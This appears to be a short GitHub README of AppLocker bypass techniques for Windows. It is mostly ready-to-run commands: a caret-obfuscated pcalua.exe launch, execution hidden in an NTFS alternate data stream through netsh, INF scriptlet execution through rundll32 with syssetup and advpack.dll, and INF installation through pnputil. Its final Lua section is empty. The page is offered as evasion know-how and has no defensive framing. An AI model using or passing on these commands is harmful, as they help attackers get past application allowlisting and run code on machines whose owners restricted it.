 # AppLocker
specialized Security and protection of users, Of malicious execution in System, the main target of it the restriction Run Execution Attacker, Applocker has some Rules For Restricted Ex-Run, All these contents come to of my research and not to be share by anyone

## pcalua.exe:>

```
p^c^a^l^u^a^ ^-^n^ ^-^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n notepad.exe
```

## Alternate Data Streams ADS:>

```
cmd.exe:> type C:\Users\Gihad\Desktop\file.bat > C:\Users\Gihad\Desktop\test.txt:x22x2
cmd.exe:> netsh exec C:\Users\Gihad\Desktop\test.txt:x22x2
```

## ScriptLet Execution InSide .INF:>
-------------------------------------------------------------
```
rundll32.exe syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\FilesINFExecution.inf 

rundll32 advpack.dll,LaunchINFSectionEx C:\testExecutionINF.inf,Name Method invoke in Files INF,
```

## pnputil.exe Launcher installer .INF:>
-------------------------------------------------------------
```
pnputil.exe /add-driver C:\FilesINFExecution.inf /install
```
## Language LUA in Files .wlua:>

```
```
